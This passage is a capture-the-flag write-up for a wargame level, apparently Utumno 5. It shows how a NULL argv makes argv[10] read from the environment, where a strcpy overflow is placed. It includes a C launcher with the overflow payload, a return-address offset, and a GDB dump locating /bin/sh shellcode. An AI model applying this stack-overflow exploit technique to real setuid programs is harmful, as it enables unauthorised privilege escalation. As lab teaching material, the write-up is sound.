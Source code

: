 If the checks return true, then it just prints *"Aw.."* and exits. However, if it is false, then it prints *"Here we go - {argv[10]}"*, and calls the function `hihi()` and passes it `argv[10]`.

The `hihi()` function defines a single character buffer `var_10` before checking if the legnth of `argv[10]` is less than of equal to 19-bytes (**0x13**). If the length of `argv[10]` is less than 19-bytes, then the `strcpy()` function is called to copy the contents of `argv[10]` into the single character buffer.

### Exploit Setup:
```c
#include <unistd.h>

// gcc -m32 -static run.c -o run

int main() {
        char *argv[] = {NULL};
        char *envp[] = {"",
                        "",
                        "",
                        "",
                        "",
                        "",
                        "",
                        "",
                        "AAAABBBBCCCCDDDDEEEE",
                        NULL};

        execve("/utumno/utumno5", argv, envp);
}
```
We can use the same script as we used in **utumno2** and set the `argv` array to `NULL` to bypass the initial checks, then because it bypasses the checks it will try to index `argv[10]` which indexes past the `argv` array and into the `envp` array where the 9th environment variable contains our overflow payload.

Compiling and running the binary with `strace`, we can see that the return address is overwritten with **0x45454545** (**EEEE**), so we need 16-bytes of padding before overwriting the return address.

We can put our shellcode into the 8th environment variable and locate the address of it in **GDB**.

```bash
gef>  x/20s *environ
0xffffdf96:     ""
0xffffdf97:     ""
0xffffdf98:     ""
0xffffdf99:     ""
0xffffdf9a:     ""
0xffffdf9b:     ""
0xffffdf9c:     ""
0xffffdf9d:     '\220' <repeats 20 times>, "1\300Ph//shh/bin\211\343P..."
0xffffdfd3:     "AAAABBBBCCCCDDDDBBBB"
0xffffdfe8:     "/utumno/utumno5"
```
The address of the shellcode is **0xffffdf9d**.

